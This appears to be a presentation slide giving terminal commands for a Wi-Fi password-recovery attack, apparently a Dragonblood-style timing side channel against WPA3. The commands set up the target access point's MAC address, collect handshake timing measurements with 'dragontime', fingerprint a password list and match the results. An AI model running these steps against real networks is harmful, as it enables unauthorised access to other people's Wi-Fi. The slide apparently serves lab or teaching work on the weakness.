

# Instructions: Execution
Open a terminal, cd to the top folder, and run:
$ sh setup_user.sh $(<MAC_AP) wlan0
You can replace “wlan0” with your Wi-Fi device, find it with ip addr or ifconfig.
To start taking measurements, run:
$ sudo ./dragontime -d $(<DEVICE) -a $(<MAC_AP) -o measurements.txt
After getting 100 measurements, stop dragontime with CTRL + C.
To generate fingerprints for the passwords, run:
$ ./fingerprints passwords.txt out.csv
The fingerprints will then be saved to out.csv.
After getting the measurements and fingerprints, run:
$ python find_matches.py measurements.txt out.csv